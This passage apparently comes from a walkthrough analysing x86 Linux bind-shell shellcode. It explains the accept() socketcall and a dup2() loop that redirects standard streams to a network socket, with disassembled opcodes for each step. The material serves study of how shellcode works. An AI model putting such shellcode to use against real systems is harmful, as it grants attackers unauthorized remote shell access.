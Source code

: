 ### accept() ###
```nasm
0000002B  43                inc ebx 					
0000002C  B066              mov al,0x66 				
0000002E  CD80              int 0x80 					
```

<p style="text-align: justify;">The next system call called is accept(). Actions like before:</p>
- Incrementing EBX (accept() call = 5)
```nasm
0000002B  43                inc ebx
```
- Call to socketcall() syscall
```nasm
0000002C  B066              mov al,0x66
```
- Syscall execution (ECX already points to top of the stack (arguments))
```nasm
0000002E  CD80              int 0x80
```
------------------------------------------------------------------------------------------------------------------------

### dup2() ###
```nasm
00000030  93                xchg eax,ebx 				
00000031  59                pop ecx
00000032  6A3F              push byte +0x3f
00000034  58                pop eax
00000035  CD80              int 0x80
00000037  49                dec ecx
00000038  79F8              jns 0x32
```
<p style="text-align: justify;">Then three dup2() syscalls will be called. For this shellcode, a loop that is executed three times (STDIN = 0, STDOUT = 1, STDERR = 2) will be used for this.</p>
- We exchange values of EAX and EBX registers
```nasm
00000030  93                xchg eax,ebx
```
- Pop address from top of the stack to the ECX registry (it is a value of 3, as many as the loop should be repeated)
```nasm
00000031  59                pop ecx
```
- Push the value 63 on the stack
```nasm
00000032  6A3F              push byte +0x3f
```
- Pop the value 63 to the EAX registry
```nasm
00000034  58                pop eax
```
- Syscall execution
```nasm
00000035  CD80              int 0x80
```
- ECX registry decrementation (3 --> 2)
```nasm
00000037  49                dec ecx
```
- Loop operating dup2() system calls
```nasm
00000038  79F8              jns 0x32
```
------------------------------------------------------------------------------------------------------------------------
